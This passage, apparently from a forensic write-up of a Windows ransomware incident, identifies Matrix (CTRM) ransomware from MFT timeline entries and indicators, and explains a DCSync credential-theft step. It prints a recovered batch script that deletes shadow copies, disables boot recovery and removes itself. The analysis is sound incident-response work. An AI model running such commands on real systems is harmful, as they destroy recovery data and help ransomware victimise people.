 ```batch 
vssadmin Delete Shadows /All /Quiet
wmic SHADOWCOPY DELETE
bcdedit /set {default} recoveryenabled No
bcdedit /set {default} bootstatuspolicy ignoreallfailures
del /f /q "C:\Users\arthur\AppData\Roaming\zTYfgvad.vbs"
SCHTASKS /Delete /TN DSHCA /F
del /f /q %0
```

This script will:
* Completely remove system restore points and shadow copies.
* Disable Windows Recovery Environment and suppress boot error messages.
* Delete the file zTYfgvad.vbs we saw above.
* Delete the DSHCA scheduled task we saw above.
* Delete itself.


In the MFT, a lot of file are created/modified and have the same naming patern : 
```bash
2021-01-07|04:21:10.148461|mft|FILESTAT|file|Metadata Modification Time|\Program Files (x86)\CMAK\Support\Previous releases\[Citrteam@hotmail.com].DvXRC02y-8Yeneq3z.CTRM
2021-01-07|04:21:10.148461|mft|FILESTAT|file|Metadata Modification Time|\Program Files\VMware\VMware Tools\VMware VGAuth\[Citrteam@hotmail.com].kxAL47t3-yygBS2r4.CTRM
2021-01-07|04:21:10.148461|mft|FILESTAT|file|Metadata Modification Time|\Program Files\VMware\VMware Tools\VMware VGAuth\schemas\[Citrteam@hotmail.com].COdAClxC-xrdul1K7.CTRM
2021-01-07|04:21:10.195451|mft|FILESTAT|file|Metadata Modification Time|\System Volume Information\DFSR\database_665A_45F5_5A45_C313\[Citrteam@hotmail.com].Efm1dxRl-Z6nxgXnG.CTRM
```

It match 2 iocs related to Matrix ransomware famillies:
* The name contains "Citrteam[@]hotmail[.]com"
* The file extension is  : "CTRM.

We have our second ransomware CTRM aka Matrix !


## Stealing datas

Later in time we witness the execution of ActiveDirectorySync :
```bash
timeline.csv
2021-01-07|04:19:41.086045|shimcache|ActiveDirectorySync.exe|C:\Users\Administrator\Documents\ActiveDirectorySync.exe|e55e5b02ad40e9846a3cd83b00eec225fb98781c6f58a19697bf66a586f77672
2021-01-07|04:19:41.086045|shimcache|NWcurdcz.exe|C:\Users\Administrator\Documents\NWcurdcz.exe|e55e5b02ad40e9846a3cd83b00eec225fb98781c6f58a19697bf66a586f77672
```

Using ActiveDirectorySync.exe allow an attacker to do a DCSync attack.
It's a technique that is typically used to steal credentials from an AD database. The attacker impersonates a domain controller (DC) to request password hashes from a target DC, using the Directory Replication Services (DRS) Remote Protocol. The attack can be used to effectively “pull” password hashes from the DC, without needing to run code on the DC itself. [source](https://www.semperis.com/blog/dcsync-attack/)

